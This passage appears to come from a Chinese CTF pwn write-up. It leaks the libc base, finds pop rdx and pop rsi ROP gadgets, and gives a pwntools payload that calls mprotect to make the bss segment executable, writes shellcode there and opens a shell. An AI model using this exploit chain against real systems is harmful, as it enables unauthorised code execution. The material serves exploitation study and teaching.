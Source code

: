 ```python
```
这样就能算出libc的偏移地址

```shell
[+] libc -> 0x7f0895c59000
```

接下来就可以设置data的权限了

而我们如果要执行mprotect就需要把第三个参数写为7，即

**mprotect(0x600000,0x1000,7);**

mprotect的第一个参数标识要写的内存页的首地址。这里是以页为单位访问。一页是４kb也就是0x1000字节所以mprotect的第一个参数必须是0x1000的倍数。第二个参数标识要设置的权限的地址的范围。这个多少都无所谓，不过需要把bss段包含进去。 



我们这个elf文件中并没有pop rbx的gadget

![1541646188733](https://raw.githubusercontent.com/xineting/xineting.github.io/master/img/1541646188733.png)

只能控制rdi，rsi，r15.

所以如果想控制rdx的话就需要一些技巧了

我们这里有两种方法，第一种是通过libc中的gadget

 

1.ROPgadget --binary  libc-2.19.so --only 'pop|ret'|grep 'rdx'

得到了pop rdx|ret的地址，然后用这个gadget来调用第三个参数

同理获取rsi的gadget。

```
0x0000000000001b8e : pop rdx ; ret
```

```
0x0000000000024885 : pop rsi ; ret
```

然后payload

```python
prsi = libc.address + 0x24885
prdx = libc.address + 0x1b8e
mprotect = flat(cyclic(0x80 + 8), prdi, 0x00600000, prsi, 0x1000, prdx, 7, libc.sym['mprotect'], elf.sym['_start'])
print mprotect
io.sendafter("Input:\n", mprotect)
pause()
```

最后我们写到bss段里

```python
read = flat(cyclic(0x80 + 8), prdi, 0, prsi, elf.bss() , prdx, 0x100, elf.plt['read'], elf.bss() )
io.sendafter("Input:\n", read)
io.send(asm(shellcraft.sh()))
io.interactive()
```
